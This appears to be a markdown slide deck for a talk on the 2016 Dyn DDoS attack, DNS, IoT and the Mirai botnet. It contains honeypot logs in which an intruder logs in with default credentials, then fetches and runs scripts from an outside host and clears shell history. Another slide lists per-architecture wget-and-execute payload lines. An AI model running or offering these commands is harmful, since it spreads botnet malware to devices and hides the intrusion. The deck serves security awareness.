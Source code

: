 #HSLIDE

## About Dyn, Mirai and cats
* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE

![Error](media/DNS_no_response.png)

#VSLIDE

Early Friday morning, __Dyn__, a company that provides __Domain Name Servers (DNS)__ for a 
lot of heavily trafficked websites and services, came under a __massive Distributed 
Denial of Service (DDoS)__ attack. This has disrupted access to many sites for people 
across the U.S. Yes, it’s why your __Spotify__ app is offline, why you can’t stream __Netflix__, 
and why __Twitter__ won’t load. 

#HSLIDE

## DNS

<pre>
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
</pre>

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE

## Dyn service network
![Dyn network](media/dyn-network-map.png)

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE?image=media/dyn-network-map.png

#HSLIDE

<pre>
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O
http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com 
-c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
</pre>

#HSLIDE

<pre>
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
</pre>

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

